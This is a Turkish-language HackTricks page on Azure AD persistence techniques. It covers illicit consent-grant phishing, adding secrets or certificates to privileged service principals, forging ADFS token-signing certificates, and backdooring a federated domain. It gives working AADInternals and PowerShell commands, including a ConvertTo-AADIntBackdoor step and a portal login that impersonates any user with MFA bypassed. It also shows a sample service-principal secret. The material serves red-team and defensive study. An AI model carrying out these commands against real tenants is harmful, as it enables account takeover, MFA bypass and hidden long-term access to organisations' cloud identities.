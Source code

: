 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Yasadışı İzin Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, yüksek etki izinlerine ihtiyaç duyan (ve eğer admin iseniz onaylayabileceğiniz) bir uygulama kaydedebilirsiniz - örneğin, bir kullanıcının adına mail gönderme, rol yönetimi vb. Bu, başarılı olması durumunda çok **verimli** olacak **oltalama saldırıları** gerçekleştirmemizi sağlayacaktır.

Ayrıca, bu uygulamayı kullanıcı olarak kabul ederek ona erişimi sürdürme yolunu da seçebilirsiniz.

### Uygulamalar ve Hizmet Prensipleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile, mevcut bir uygulamaya kimlik bilgileri (gizli anahtar veya sertifika) ekleyebiliriz.

Yüksek izinlere sahip bir **uygulamayı hedef almak** veya **yüksek izinlere sahip yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklemek için ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olacaktır çünkü bu, Küresel Yöneticilerin **şifresini sıfırlama** yetkisi verir.

Bu teknik ayrıca **MFA'yı atlatmayı** da sağlar.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Sertifika tabanlı kimlik doğrulama için
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

On-prem AD üzerinde **DA ayrıcalıkları** ile, çok uzun geçerlilik süresine sahip **yeni Token signing** ve **Token Decrypt sertifikaları** oluşturmak ve içe aktarmak mümkündür. Bu, bildiğimiz herhangi bir kullanıcının ImuutableID'si ile **giriş yapmamıza** olanak tanıyacaktır.

**Yeni sertifikaları oluşturmak için** aşağıdaki komutu **ADFS sunucusunda DA olarak** çalıştırın (varsayılan şifre 'AADInternals'), bunları ADFS'ye ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Sonra, sertifika bilgilerini Azure AD ile güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Güvenilir Alan

GA ayrıcalıkları ile bir kiracıda, **yeni bir alan eklemek** mümkündür (doğrulanması gerekir), kimlik doğrulama türünü Federated olarak yapılandırmak ve alanı **belirli bir sertifikaya** (aşağıdaki komutta any.sts) ve vericiye güvenecek şekilde yapılandırmak mümkündür:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
